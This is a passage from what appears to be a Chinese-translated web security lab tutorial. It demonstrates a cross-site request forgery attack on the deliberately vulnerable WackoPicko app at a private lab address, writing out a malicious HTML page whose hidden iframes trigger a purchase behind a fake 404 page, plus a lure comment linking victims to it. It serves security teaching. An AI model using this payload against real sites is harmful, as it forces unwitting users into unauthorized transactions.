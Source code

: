 0.  之后，创建 HTML 文件，叫做`/var/www/html/wackopurchase.html`，带有如下内容：

    ```html
    <html> 
    <head></head> 
    <body onLoad='window.location="http://192.168.56.102/ WackoPicko/cart/action.php?action=purchase";setTimeout("window. close;",1000)'> 
    <h1>Error 404: Not found</h1> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/action. php?action=add&picid=16"> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/review.php" > 
    <iframe src="http://192.168.56.102/WackoPicko/cart/confirm.php"> 
    </iframe> 
    </iframe> 
    </iframe> 
    </body>
    ```
    
    这个代码会我们的商品的发送`add`、`review`和`confirm`请求给 WackoPicko ，之后展示 404 页面给用户，当它加载完成后，它会重定向到购买操作，之后在一秒后关闭窗口。
    
1.  现在以`v_user`登录，上传图片并登出。

2.  作为攻击者，我们需要确保用户访问我们的恶意站点，同时仍然保持登录 WackoPicko。以`attacker`登录之后，访问`Recent`并选择属于`v_user`的图片（刚刚上传的那个）。

3.  我们需要在图片上输入下列评论。

    ```html
    This image looks a lot like <a href="http://192.168.56.1/ wackopurchase.html" target="_blank">this</a>
    ```
    
    > 译者注：这一步的前提是页面上存在 XSS，没有的话利用社会工程直接发送链接也是可行的。
    
4.  点击`Preview`之后`Create`。

    ![](img/7-6-4.jpg)
    
    你可以看到，评论中允许HTML 代码，而且当`v_user`点击链接是，我们的恶意页面会在新窗口打开。
    
5.  登出并以`v_user`登录。

6.  访问`Home`并点击` Your Purchased Pics`，这里应该没有攻击者的图片。

7.  再次访问`Home`，之后访问` Your Uploaded Pics`。

8.  选项带有攻击者评论的图片。

9.  点击评论中的链接。

    ![](img/7-6-5.jpg)